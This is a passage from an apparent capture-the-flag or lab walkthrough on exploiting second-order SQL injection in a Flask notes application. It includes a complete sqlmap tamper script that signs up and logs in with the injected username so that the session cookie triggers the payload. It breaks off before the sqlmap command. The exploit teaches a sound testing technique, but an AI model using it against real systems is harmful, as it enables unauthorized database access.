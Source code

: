 1. Register a malicious user
2. Login with the malicious user
3. Go to the notes page to trigger the injection

It
is possible to achieve all of the necessary steps by creating a tamper
script. Sqlmap supports tamper scripts, which are scripts used for
tampering with injection data. With a tamper script, we can easily
modify the payload, for example, adding a custom encoding to it. It also
allows us to set other things, such as cookies.

There are two custom functions in the tamper script below. The first function is *create_account()* , which register a user with sqlmap's payload as name and 'asd' as password. The next custom function is *login()* , which logs sqlmap in as the newly created user and returns the Flask session cookie. *tamper()* is the main function in the script, and it has the *payload* and ***kwargs * as arguments. ***kwargs* holds information such as the [HTTP]()
headers, which we need to place the Flask session cookie onto the
request to allow sqlmap to go to the notes page to trigger the SQL
injection. The *tamper()* function first gets the headers from *kwargs* , then creates a new user on the application, and then it logs in to the application and sets the Flask session onto the [HTTP]() header object.

<pre><div><div><div><span>#!/usr/bin/python</span></div><div><span>import</span> requests</div><div><span>from</span> lib<span>.</span>core<span>.</span>enums <span>import</span> <span>PRIORITY</span></div><div>__priority__ <span>=</span> <span>PRIORITY</span><span>.</span><span>NORMAL</span></div><div><br/></div><div>address <span>=</span> <span>"</span><span>http://10.10.1.134:5000/challenge4</span><span>"</span></div><div>password <span>=</span> <span>"</span><span>asd</span><span>"</span></div><br/><div><span>def</span> <span>dependencies</span><span>():</span></div><div>    <span>pass</span></div><br/><div><span>def</span> <span>create_account</span><span>(</span><span>payload</span><span>):</span></div><div>    <span>with</span> requests<span>.</span>Session<span>()</span> <span>as</span> s<span>:</span></div><div>        data <span>=</span> <span>{</span><span>"</span><span>username</span><span>"</span><span>:</span> payload<span>,</span> <span>"</span><span>password</span><span>"</span><span>:</span> password<span>}</span></div><div>        resp <span>=</span> s<span>.</span>post<span>(</span><span>f</span><span>"</span><span>{</span>address<span>}</span><span>/signup"</span><span>,</span> <span>data</span><span>=</span>data<span>)</span></div><br/><div><span>def</span> <span>login</span><span>(</span><span>payload</span><span>):</span></div><div>    <span>with</span> requests<span>.</span>Session<span>()</span> <span>as</span> s<span>:</span></div><div>        data <span>=</span> <span>{</span><span>"</span><span>username</span><span>"</span><span>:</span> payload<span>,</span> <span>"</span><span>password</span><span>"</span><span>:</span> password<span>}</span></div><div>        resp <span>=</span> s<span>.</span>post<span>(</span><span>f</span><span>"</span><span>{</span>address<span>}</span><span>/login"</span><span>,</span> <span>data</span><span>=</span>data<span>)</span></div><div>        sessid <span>=</span> s<span>.</span>cookies<span>.</span>get<span>(</span><span>"</span><span>session</span><span>"</span><span>,</span> <span>None</span><span>)</span></div><div>    <span>return</span> <span>"</span><span>session=</span><span>{}</span><span>"</span><span>.</span>format<span>(</span>sessid<span>)</span></div><br/><br/><div><span>def</span> <span>tamper</span><span>(</span><span>payload</span><span>,</span> <span>**</span><span>kwargs</span><span>):</span></div><div>    headers <span>=</span> kwargs<span>.</span>get<span>(</span><span>"</span><span>headers</span><span>"</span><span>,</span> <span>{})</span></div><div>    create_account<span>(</span>payload<span>)</span></div><div>    headers<span>[</span><span>"</span><span>Cookie</span><span>"</span><span>]</span> <span>=</span> login<span>(</span>payload<span>)</span></div><div>    <span>return</span> payload</div><br/><br/></div></div></pre>

The folder where the tamper script is located will also need an empty *__init__.py*
file for sqlmap to be able to load it. Before starting sqlmap with the
tamper script, change the address and password variable inside the
script. With this done, it is possible to exploit the vulnerability with
the following command:
